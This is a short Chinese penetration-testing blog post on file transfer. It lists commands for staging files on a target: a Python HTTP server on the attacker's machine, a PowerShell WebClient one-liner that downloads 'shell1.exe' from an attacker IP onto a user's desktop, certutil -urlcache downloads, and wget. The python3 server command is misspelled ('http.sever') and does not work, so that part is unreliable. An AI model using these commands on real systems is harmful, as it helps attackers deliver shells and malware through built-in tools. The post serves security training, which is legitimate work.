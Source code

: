 ```yaml
---
title: 渗透测试之文件传输
date: 2021/12/12
tags: 渗透测试
categories: 渗透测试
banner_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_15.jpg
index_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_15.jpg
---
```




# 文件传输

---

- 首先要在本地机器上开启HTTP服务（在被传文件的同一路径下）：

```
python2 -m SimpleHTTPServer
python3 -m http.sever
```

---



## windows

- powershell

```
PowerShell (new-object Net.WebClient).DownloadFile('http://10.10.14.5:8082/shell1.exe','c:\Users\tolis\Desktop\shell1.exe')
```

- [certutil](https://zhuanlan.zhihu.com/p/107819644) windows自带渗透测试文件

```
certutil -f -urlcache http://10.10.14.3/file.exe renamefile.exe
certutil.exe -urlcache -split -f http://example.com/file.txt
```

## linux

- wget

```
需要切换到/tmp目录下，才具有下载权限
wget http://example.com:port/filename.txt
```

